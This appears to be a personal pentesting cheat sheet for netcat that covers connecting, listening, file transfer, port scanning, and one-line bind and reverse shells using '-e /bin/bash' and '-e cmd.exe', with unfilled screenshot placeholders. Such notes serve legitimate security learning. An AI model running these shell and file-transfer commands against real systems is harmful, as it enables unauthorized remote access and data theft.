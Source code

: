 # netcat 

* ***connect to tcp/udp***

```shell
nc -nv 192.168.10.1 22 
```
screen shot 

* ***command flags***
```
-l: Listen mode 
-L: Listen harder ( WINDOWS VERSION ).
-u: UDP 
-p: Local port 
-e: Program to execute after connection occurs ( cmd.exe , /bin/bash .....)
-n: Don’t perform DNS lookups on names of machines on the other side
-z: Zero-I/O mode (Don’t send any data, just emit a packet without payload)
-wN: Timeout for connects, waits for N seconds after closure of STDIN. 
-v: verbose mode .
-vv: Be very verbose .
```

* ***Listening on a tcp/udp***

```shell
nc -nvlp 1337

```
scrren shot 

* ***File Transfer***

```shell
nc -nvlp 1337 > out_file.txt
```
```shell
nc -nv 10.10.10.10 1337 < ~/home/mastermind/in_file.txt
```

screen shots 

* ***bind shell*** 
```shell
nc -lnvp 1337 -e cmd.exe
```
```shell
nc -nv target_ip port 
```

* ***Reverse Shell***
```shell
nc -lnvp 1337 
```
```shell
nc -nv 10.10.10.10 1337 -e /bin/bash
```
* ***Port Scanner***

```shell
nc -nvz -w3 10.10.10.10 100-120  # 100-120 ip range
```
screnn shot 
